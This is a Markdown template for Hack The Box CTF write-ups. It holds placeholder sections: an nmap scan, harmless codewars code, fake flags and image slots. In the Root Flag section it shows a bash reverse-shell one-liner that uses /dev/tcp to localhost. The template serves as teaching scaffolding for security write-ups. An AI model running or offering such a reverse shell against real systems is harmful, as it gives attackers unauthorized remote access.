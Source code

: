 # WriteUp3---
title: "Hack The Box - BOX NAME HERE"
author: Ryan Kozak
date: "2021-06-15"
subject: "CTF Writeup Template"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/bg.pdf"
...


*Everything below is just random stuff for the sake of example.*

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
x@wartop:~$ nmap -sVC 192.168.100.6

Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
Nmap scan report for 192.168.100.6 (192.168.100.1)
Host is up (0.022s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
53/tcp  open  domain
81/tcp  open  http     Apache httpd
|_http-server-header: Apache
444/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=192.168.100.6
| Not valid before: 2018-07-06T14:40:08
|_Not valid after:  4756-06-01T14:40:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.

Look  here's an image of my website, this is how you format an image.

![My Website](./images/ryankozak.com.png)
\ **Figure 1:** My Website


![Github](./images/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
